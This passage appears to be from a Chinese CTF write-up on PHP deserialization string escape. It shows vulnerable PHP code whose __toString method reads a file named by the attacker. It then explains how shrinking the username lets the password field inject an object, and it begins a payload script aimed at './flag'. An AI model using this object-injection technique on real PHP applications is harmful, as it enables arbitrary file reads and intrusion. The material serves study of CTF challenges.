 ```php
    function __destruct(){
        $c = 'a'.$this->b;
        echo $c;
    }
}

class C{
    public $c;
    function __toString(){
        //flag.php
        echo file_get_contents($this->c);
        return 'nice';
    }
}

$a = new A($_GET['a'],$_GET['b']);
//省略了存储序列化数据的过程,下面是取出来并反序列化的操作
$b = unserialize(read(write(serialize($a))));
```



原理是通过对username长度的减小，导致username反序列化时将password部分视为自己的部分，则我们可以构造自己的序列化语句，注入自己想要的对象。



**payload**

```php
<?php
function write($data) {
    return str_replace(chr(0) . '*' . chr(0), '\0\0\0', $data);
}

function read($data) {
    return str_replace('\0\0\0', chr(0) . '*' . chr(0), $data);
}

class A{
    public $username;
    public $password;
    function __construct($a, $b){
        $this->username = $a;
        $this->password = $b;
    }
}

class B{
    public $b = 'gqy';
}

class C{
    public $c;
    function __construct()
    {
        $this->c = "./flag";
    }
}

function CURL($url){
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, FALSE);
    curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, FALSE);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
    $output = curl_exec($ch);
```
